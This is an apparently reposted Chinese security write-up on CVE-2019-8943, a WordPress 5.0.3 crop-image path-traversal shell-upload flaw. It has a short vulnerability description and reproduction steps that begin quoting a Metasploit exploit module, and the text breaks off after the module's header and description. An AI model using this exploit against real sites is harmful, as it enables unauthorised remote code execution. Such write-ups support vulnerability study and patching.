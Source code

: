 # （CVE-2019-8943）WordPress 5.0.3 - Crop-image Shell Upload (Metasploit)

> 原文：[https://www.zhihuifly.com/t/topic/3263](https://www.zhihuifly.com/t/topic/3263)

# （CVE-2019-8943）WordPress 5.0.3 - Crop-image Shell Upload (Metasploit)

## 一、漏洞简介

WordPress通过5.0.3允许在wp_crop_image（）中进行路径遍历。攻击者（具有裁剪图像的特权）可以通过包含两个图像扩展名和../序列的文件名，例如以.jpg？/../../结尾的文件名，将输出图像写入任意目录。 file.jpg子字符串。

## 二、漏洞影响

## 三、复现过程

保存内容为xxx.md 并放到msf运行的目录下

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote

Rank = ExcellentRanking

include Msf::Exploit::FileDropper

include Msf::Exploit::Remote::HTTP::Wordpress

def initialize(info = {})

super(update_info(

info,

‘Name’            => ‘WordPress Crop-image Shell Upload’,

‘Description’     => %q{

This module exploits a path traversal and a local file inclusion

vulnerability on WordPress versions 5.0.0 and <= 4.9.8.

The crop-image function allows a user, with at least author privileges,

to resize an image and perform a path traversal by changing the _wp_attached_file

reference during the upload. The second part of the exploit will include

this image in the current theme by changing the _wp_page_template attribute

when creating a post.

```
 This exploit module only works for Unix-based systems currently.
  },
  'License'         =&gt; MSF_LICENSE,
